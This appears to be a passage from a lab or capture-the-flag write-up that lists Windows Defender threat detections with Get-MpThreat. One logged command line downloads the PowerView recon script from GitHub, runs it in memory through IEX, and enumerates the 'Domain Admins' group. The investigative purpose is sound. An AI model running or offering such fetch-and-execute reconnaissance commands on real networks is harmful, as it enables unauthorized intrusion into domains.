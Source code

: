 #### Second Question

Let's use the following command:

```powerhsell
Get-MpThreat | Format-List *
```

We get:

```
CategoryID            : 8
DidThreatExecute      : False
IsActive              : False
Resources             : {CmdLine:_C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe IEX (New-Object Net.WebClient).DownloadString('https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1'); Get-NetGroupMember 'Domain Admins',
                        internalCmdLine:_i AQAAAA2wA4AAAAAAAAAAAF8Q02fXQQEAbRa5PR40vlvAdUq6bbN3ro51dwpUcm9qYW46UG93ZXJTaGVsbC9Qb3dlcnNwbG9pdC5HAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA== 57 10 C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
                        powershell IEX (New-Object Net.WebClient).DownloadString('https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1'); Get-NetGroupMember 'Domain Admins'}
RollupStatus          : 1
SchemaVersion         : 1.0.0.0
SeverityID            : 5
ThreatID              : 2147725325
ThreatName            : Trojan:PowerShell/Powersploit.G
TypeID                : 0
PSComputerName        :
CimClass              : ROOT/Microsoft/Windows/Defender:MSFT_MpThreat
CimInstanceProperties : {CategoryID, DidThreatExecute, IsActive, Resources...}
CimSystemProperties   : Microsoft.Management.Infrastructure.CimSystemProperties

CategoryID            : 34
DidThreatExecute      : False
IsActive              : False
Resources             : {file:_C:\Users\kkidd\Desktop\PowerView.ps1, containerfile:_C:\Users\kkidd\Desktop\PowerView.ps1, file:_C:\Users\kkidd\Desktop\PowerView.ps1->(UTF-8)}
RollupStatus          : 1
SchemaVersion         : 1.0.0.0
SeverityID            : 4
ThreatID              : 2147755688
ThreatName            : HackTool:PowerShell/PowerView
TypeID                : 0
PSComputerName        :
CimClass              : ROOT/Microsoft/Windows/Defender:MSFT_MpThreat
CimInstanceProperties : {CategoryID, DidThreatExecute, IsActive, Resources...}
CimSystemProperties   : Microsoft.Management.Infrastructure.CimSystemProperties

CategoryID            : 34
DidThreatExecute      : True
IsActive              : False
Resources             : {amsi:_C:\Tools\PowerView.ps1, internalamsi:_0296D712FA44FD733F95B0C00E4631FC}
RollupStatus          : 65
SchemaVersion         : 1.0.0.0
SeverityID            : 4
ThreatID              : 2147762887
ThreatName            : HackTool:PowerShell/InvKerber.B
TypeID                : 0
PSComputerName        :
CimClass              : ROOT/Microsoft/Windows/Defender:MSFT_MpThreat
CimInstanceProperties : {CategoryID, DidThreatExecute, IsActive, Resources...}
CimSystemProperties   : Microsoft.Management.Infrastructure.CimSystemProperties
```
